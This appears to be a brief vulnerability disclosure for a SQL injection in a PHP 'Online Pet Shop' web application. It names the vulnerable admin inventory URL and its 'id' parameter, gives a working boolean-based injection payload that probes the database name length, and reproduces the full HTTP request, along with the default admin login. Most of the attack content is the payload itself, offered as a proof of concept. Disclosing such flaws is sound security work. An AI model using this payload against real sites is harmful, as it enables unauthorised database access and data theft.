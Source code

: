 # Online Pet Shop We App v1.0 by oretnom23 has SQL injection

BUG_Author: hegeoo

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14839/online-pet-shop-we-app-using-php-and-paypal-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /pet_shop/admin/?page=inventory/manage_inventory&id=

Vulnerability location: /pet_shop/admin/?page=inventory/manage_inventory&id=,id

dbname=pet_shop_db,length=11

[+] Payload: /pet_shop/admin/?page=inventory/manage_inventory&id=8%27%20and%20length(database())%20=11--+ // Leak place ---> id

```sql
GET /pet_shop/admin/?page=inventory/manage_inventory&id=8%27%20and%20length(database())%20=11--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=k8u390ikl968phg971gmpmhtj5
Connection: close
```

length=11
![image](https://user-images.githubusercontent.com/54017627/185290165-6accbfef-4706-4ef1-a4ad-6a865687e045.png)


length=12
![image](https://user-images.githubusercontent.com/54017627/185290226-200835e6-49e5-443a-8fa6-8e62808b1b32.png)
